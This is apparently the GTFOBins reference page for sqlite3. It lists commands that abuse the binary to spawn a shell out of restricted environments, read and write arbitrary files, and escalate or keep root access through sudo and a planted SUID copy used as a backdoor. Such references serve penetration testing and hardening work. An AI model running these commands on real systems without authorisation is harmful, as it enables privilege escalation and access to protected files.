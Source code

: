 # GTFOBin: sqlite3

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
sqlite3 /dev/null '.shell /bin/sh'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
sqlite3 /dev/null -cmd ".output $LFILE" 'select "DATA";'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which sqlite3) .

LFILE=file_to_read
sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo sqlite3 /dev/null '.shell /bin/sh'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which sqlite3) .

./sqlite3 /dev/null '.shell /bin/sh'
```